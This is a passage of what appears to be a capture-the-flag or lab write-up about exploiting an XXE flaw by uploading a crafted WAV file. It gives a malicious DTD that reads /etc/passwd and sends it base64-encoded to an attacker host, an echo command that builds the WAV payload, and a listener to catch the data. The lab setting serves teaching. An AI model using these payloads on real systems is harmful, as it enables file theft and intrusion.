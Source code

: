 ```bash
export IP=10.10.83.190
```

#### Constructing the Payload

Using the methodology of the exploit just explained to us - we can login as `test-corp` with the password `test`.

Once we navigate to the upload section, we can already notice a cheeky `payload.wav` waiting for us and big hint as to what is about to come.

![](./assets/hint.png)

From above we're going to craft first our `payload.wav` and then our `dtd` file

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://[MY IP]:9999/?p=%file;'>" >
```

And our payload file can be constructed with the command from earlier:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[MY IP]:[PORT]/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Start our Server

```bash
php -S 0.0.0.0 9999
```

##### Potential Errors
